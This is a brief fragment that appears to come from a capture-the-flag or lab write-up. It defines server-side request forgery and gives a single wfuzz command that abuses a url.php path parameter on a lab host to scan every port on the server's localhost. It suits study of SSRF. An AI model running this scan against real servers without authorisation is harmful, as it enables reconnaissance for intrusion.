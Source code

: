 **Server-side request forgery** (**SSRF**) is a type of computer security exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessible to the attacker.

`wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=127.0.0.1:FUZZ`